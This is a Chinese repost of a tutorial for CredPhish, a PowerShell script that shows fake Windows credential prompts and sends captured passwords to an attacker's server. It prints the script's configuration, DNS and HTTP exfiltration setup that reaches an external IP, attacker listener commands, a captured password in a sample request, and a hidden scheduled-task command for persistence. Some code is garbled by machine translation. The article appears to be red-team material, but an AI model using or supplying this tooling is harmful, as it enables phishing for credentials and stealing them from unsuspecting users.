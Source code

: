 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/dCuCekqcec9wqPvJJY0HdA)

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV0K6kJ9CJbxH761PtpXaiaibIUOoMwfDxjqSsUenx8Z3SWx8iaerZJicHtZHPQQJMMo5T4w2LY7Jl7B5Q/640?wx_fmt=png)

        欺骗凭证提示是一种有效的权限提升和横向移动技术。在 Windows 环境中遇到 Outlook、VPN 和各种其他身份验证协议看似随机的密码提示并不罕见。攻击者将滥用 Windows 和 PowerShell 中内置的功能来调用凭据弹出窗口来获取用户密码。   

根据 MITRE ATT&CK 框架的定义 ： 

        “当执行需要额外权限的程序时…… 操作系统通常会提示用户提供正确的凭据以授权任务的提升权限。攻击者可能会模仿常见的操作系统组件，通过看似合法的提示来提示用户输入凭据…… 通过 PowerShell 等语言。” 

### **什么是 CredPhish？** 

        CredPhish 是一个 PowerShell 脚本，旨在调用凭据提示和泄露密码。它依靠 CredentialPicker  API 来收集用户密码，依靠 PowerShell 的 Resolve-DnsName 进行 DNS 渗漏，并依靠 Windows Defender 的 ConfigSecurityPolicy.exe 来执行任意 GET 请求。 

        下面是 CredPhish 的一个例子。请注意凭据在 Windows 安全提示中提交后立即传送到攻击者的 DNS 服务器。 

![](https://mmbiz.qpic.cn/mmbiz_gif/aPmkR80bcV0K6kJ9CJbxH761PtpXaiaibIYZpxzicvXw1RdaXxmLyibMSQwVL2ENOra5KQv0GeibtwfXTwibIsoRRfYg/640?wx_fmt=gif)

        默认情况下，CredPhish 将使用 Resolve-DnsName（PowerShell 内置的 DNS 解析器）来窃取凭据。它将凭据中的每个字符转换为其各自的十六进制值，将转换后的值分解为预定义的块，并将这些块放入流行网站的子域中。以下屏幕截图是十六进制形式的泄露凭据示例。请注意 google.com 和 office.com 子域中 “tokyoneon”(746f6b796f6e656f6e) 的十六进制值。 

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV0K6kJ9CJbxH761PtpXaiaibInQqGiapo7bdoMiaGyicb1taTLCNFGmKAsIxF60ewAEudEjPENG012Q7aw/640?wx_fmt=png)

        在解析 DNS 查询之前，DNS 服务器将剥离十六进制子域以避免创建数十个错误响应。在下面的 Wireshark 屏幕截图中，请注意 “Answers” 字段不再包含子域并成功解析为 Google 的 IP 地址之一。 

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV0K6kJ9CJbxH761PtpXaiaibIHUvqicicfLjAhSPfPr77U1EVLHFDHBEhhQibjbTfXXYcouMicicKZ7wVOlg/640?wx_fmt=png)

### **CredPhish.ps1 配置** 

        我将 credphish.ps1 设计  为一个独立的脚本，不需要 `Import-Module`，这是一个常见的妥协指标。可配置选项以变量的形式位于 PS1 脚本的顶部，以避免冗长的命令行参数。 

        第一行是最重要的，因为它定义了泄露数据的交付位置（即攻击者的 Kali 服务器）。 

```
# exfil 地址  
$exfilServer  =  "192.168.56.112" 
```

        接下来，几个变量定义了提示将如何呈现给毫无戒心的目标用户。在 `$promptCaption` 定义了 “_应用程序_” 请求用户证书（例如，“微软办公室”）。并且 `$promptMessage` 通常指定与请求关联的帐户。 

```
# prompt 
$targetUser  =  $ env : username 
$companyEmail  =  " blackhillsinfosec.com "
 $promptCaption  =  " Microsoft Office "
 $promptMessage  =  " Connecting to: $targetUser @ $companyEmail "
 $maxTries  =  1  # 调用提示的最大次数
$ delayPrompts  =  2  # 提示之间的秒数
$validateCredentials  =  $ false  # 如果凭据有效，则中断 $maxTries 并立即删除
```

        该 `$maxTries` 变量定义了在目标提交凭据之前提示出现的次数。为避免怀疑， `1` 是默认值。该 `$delayPrompts` 变量定义了每个提示之间的秒数（如果 `$maxTries` 大于 `1`）。并且 `$validateCredentials`，默认情况下禁用，将尝试`Start-Process` 在提升的上下文中使用本地验证提交的凭据 。如果启用并验证凭据， `$maxTries` 则会被忽略，并且数据会立即发送到攻击者的服务器。 

### **过滤方法** 

        如前所述，DNS 外泄是将密码传送到攻击者服务器的默认方法。                        `$exfilDomains` 列表包括用于 DNS 查询并随机选择的各种域。该                            `$subdomainLength` 变量决定了每个子域的所需长度。 

```
#域名解析
# 在kali中启动dns服务器：python3 /path/to/credphish/dns_server.py
$ enableDnsExfil  =  $真
$ exfilDomains  = @（' .microsoft.com '， ' .google.com '， ' .office.com '， ' .live.com '）的DNS exfil＃域
$ randomDelay  =  GET随机 -最小5  -最大20  # dns 查询之间的延迟
$subdomainLength  =  6  # 子域中的最大字符数。必须是 2-60 之间的偶数，否则查询会中断
```

        要拦截使用 DNS 过滤功能发送的凭据，请 在 Kali 中执行 dns_server.py 脚本。按 `Ctrl` + `c` 终止 DNS 服务器，它将以明文形式重建拦截的凭据。 

![](https://mmbiz.qpic.cn/mmbiz_gif/aPmkR80bcV0K6kJ9CJbxH761PtpXaiaibIYZpxzicvXw1RdaXxmLyibMSQwVL2ENOra5KQv0GeibtwfXTwibIsoRRfYg/640?wx_fmt=gif)

         CredPhish 中内置的另一种渗漏方法是 HTTP 请求方法。它利用 Windows Defender 中包含的二进制文件 “ ConfigSecurityPolicy.exe ” 向攻击者的服务器提供凭据。将 `$enableHttpExfil` 变量设置 `$true` 为启用它。 

```
# http 
# 在 kali 中启动 http 服务器：python3 -m http.server 80
 $enableHttpExfil  =  $false 
$ConfigSecurityPolicy  =  " C:\Prog*Files\Win*Defender\ConfigSecurityPolicy.exe "
```

        要拦截使用 发送的凭据 `ConfigSecurityPolicy.exe`，请在 Kali 中启动一个简单的 HTTP 服务器以在日志中捕获它们。 

![](https://mmbiz.qpic.cn/mmbiz_gif/aPmkR80bcV0K6kJ9CJbxH761PtpXaiaibIzMHMibQ6JW8Ae1IXoLX3WFnDBEO5R04HVrcFdR6SQnz93q7DWHcmbLQ/640?wx_fmt=gif)

在网络上，泄露的凭据将显示如下：

```
GET /DESKTOP-S4DAAF0%5Btokyoneon%3A%23!Extr3m3Ly_%26ecuRe-P%40ssw%25rD%23%5D HTTP/1.1  
Accept: */*  
UA-CPU: AMD64  
Accept-Encoding: gzip, deflate  
User-Agent: Mozilla /4.0（兼容；MSIE 7.0；Windows NT 10.0；Win64；x64；Trident/7.0；.NET4.0C；.NET4.0E） 
主机：192.168.56.104 
连接：Keep-Alive 
 
```

        由于凭证在传输前经过 URL 编码，因此使用 Burp 的解码器模块观察数据或使用 Python 的 `urllib` 库通过命令行进行 URL 解码。 

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV0K6kJ9CJbxH761PtpXaiaibIVU0iaEuibMl0KkQvicbHQS0icia5Xz8ibvsq3GG1UyUbl4mCRye2y8jmiamPw/640?wx_fmt=png)

```
>>>  from  urllib.parse  import unquote  
>>>  unquote ("/DESKTOP-S4DAAF0%5Btokyoneon%3A%23!Extr3m3Ly_%26ecuRe-P%40ssw%25rD%23%5D")  '/DESKTOP-S4DAAF0[tokyoneon:# !Extr3m3Ly_& ecuRe-P@ssw %rD#]' 
 
```

### **CredPhish.ps1 执行** 

        要快速测试 CredPhish，请将 移动 `credphish.ps1` 到目标 Windows 10 计算机并使用 PowerShell 执行它。 

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV0K6kJ9CJbxH761PtpXaiaibIyZ2ge96AcW8eN8BDKXqg9vFLpXh6g8XzZLNHQ1wsQoE1aVDDgZBzSg/640?wx_fmt=png)

        一种持久的执行方法可能涉及 Task Schedtokyoneon //uler，它是 Windows 的一个组件，它提供了以预定义的时间间隔安排脚本执行的能力。下面的 `schtasks` 示例将`credphish.ps1` 每 2 分钟执行 一次。 

```
schtasks /create /sc minute /mo 2 /tn "credphish" /tr "powershell -ep bypass -WindowStyle Hidden C:\path\to\credPhish\credphish.ps1" 
```